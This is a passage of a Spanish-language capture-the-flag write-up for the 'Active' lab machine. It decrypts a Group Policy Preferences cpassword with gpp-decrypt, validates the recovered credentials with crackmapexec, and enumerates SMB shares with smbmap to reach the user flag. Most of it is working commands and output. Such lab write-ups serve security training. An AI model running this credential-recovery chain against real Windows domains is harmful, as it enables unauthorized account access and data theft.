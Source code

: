 ```
name="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

Especificamente es un hash, por lo tanto, si se logra romper dicho hash podremos ver la contraseña en texto claro.


## Explotación


Para crackear el hash se utiliza la herramienta `gpp-decrypt`:

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```
Teniendo un posible usuario y contraseña, los validamos utilizando `crackmapexec`:

```
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'

SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
```

Con las credenciales utilizamos `smbmap`:

```
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'

[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY

```

Observamos que tenemos capacidad de lectura en el directorio Users, navegamos hasta el directorio personal del usuario SVC_TGS:

```
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop

[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Users                                                   READ ONLY
        .\UsersSVC_TGS\Desktop\*
        dr--r--r--                0 Sat Jul 21 11:14:42 2018    .
        dr--r--r--                0 Sat Jul 21 11:14:42 2018    ..
        fw--w--w--               34 Mon Feb  6 17:56:46 2023    user.txt

```
Encontramos la flag de usuario, por lo tanto, la descargamos:
